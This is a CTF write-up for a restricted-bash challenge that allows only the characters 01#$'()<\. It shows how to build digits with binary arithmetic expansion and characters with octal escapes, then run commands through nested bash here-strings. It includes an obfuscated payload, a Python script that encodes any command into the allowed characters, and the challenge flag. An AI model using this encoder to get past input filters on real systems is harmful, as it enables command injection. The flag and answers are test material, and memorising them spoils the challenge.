 ```yaml
---
ai_date: '2025-04-27 05:21:25'
ai_summary: Exploited command injection using octal escape sequences and binary conversion
  to obtain numbers and characters in a restricted shell
ai_tags:
- cmd-inj
- octal-esc
- binary-conversion
created: 2024-08-03T16:18
points: 476
solves: 16
tags:
- bash
updated: 2024-08-05T19:35
---
```


## analysis
With some quick trial and error (trying all printable chars), we can obtain the valid charset this shell accepts.

```
01#$'()<\
```

That is very little indeed.

## step 1: numbers
Obviously at some point we need to obtain letters, and before that we need numbers.

A great candidate would be octal representation of characters `\000`.

How would we obtain numbers?

We can use `$((2#00010))` to convert from binary representation to decimal.

And we can obtain the 2 via `$((1<<1))`.

Putting them together we can now construct any number with `$(($((1<<1))#000101))`.

## step 2: characters

> Characters can be written as the octal form `\nnn` using numbers.

However, simply putting numbers together doesn't make them letters. 😢

The escape sequence `ls` can be written as `\\1$(($((1<<1))#101))$(($((1<<1))#100))\\1$(($((1<<1))#110))$(($((1<<1))#11))`.
But it would not run as `ls`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722717087/2024/08/3a67ead104579fdc188d6cae78bb9c98.png)

I got stuck on this for a long time (very long time), until I stumbled upon writeups for a past CTF challenge `minbashmaxfun`.

I can use `bash<<<\$\'\\1$(($((1<<1))#101))$(($((1<<1))#100))\\1$(($((1<<1))#110))$(($((1<<1))#11))\'` to run `ls`.

And since we are in bash, that would mean `$0<<<'...'`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722717507/2024/08/4173577f7e6a6375aed6d2a998c90c43.png)

## step 3: spaces

However, we still have another issue.

Using the above method we can indeed run any command, but arguments (and spaces) are interpreted as part of the command.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722716940/2024/08/793bab89e87bd1830be75bb94b7f435d.png)

I, again, got stuck for quite a while until I stumbled upon another writeup for the same challenge `minbashmaxfun`.

The solution is simple, use another layer of `bash<<<`.

The final solution would be something like this.

```bash
bash<<<bash\<\<\<\$\'cat(smthhere)flag.txt\' # space here is in escape form
bash<<<$'cat flag.txt' # space becomes a space
cat flag.txt # profit
```

## solve script

The final payload is.

```bash
$0<<<$0\<\<\<\$\'\\1$(($((1<<1))#100))$(($((1<<1))#11))\\1$(($((1<<1))#100))1\\1$(($((1<<1))#110))$(($((1<<1))#100))\\0$(($((1<<1))#100))0\\1$(($((1<<1))#100))$(($((1<<1))#110))\\1$(($((1<<1))#101))$(($((1<<1))#100))\\1$(($((1<<1))#100))1\\1$(($((1<<1))#100))$(($((1<<1))#111))\\0$(($((1<<1))#101))$(($((1<<1))#110))\\1$(($((1<<1))#110))$(($((1<<1))#100))\\1$(($((1<<1))#111))0\\1$(($((1<<1))#110))$(($((1<<1))#100))\'
```

The translator is a python script I wrote.

```python
import string


def repl_nums(c):
    if c in '01':
        return c
    return f"$(($((1<<1))#{bin(int(c))[2:]}))"


def t(c):
    # if c not in "01#$'()<\\":
    return '\\\\'+''.join([repl_nums(_) for _ in oct(ord(c))[2:].zfill(3)])
    # return c

payload = "cat flag.txt"
payload = ''.join([t(c) for c in payload])
out = f"$0<<<$0\\<\\<\\<\\$\\'{payload}\\'"
print(out)
```

```flag
TFCCTF{fb1_0p3n_up!!!!__0x410x410x410x41}
```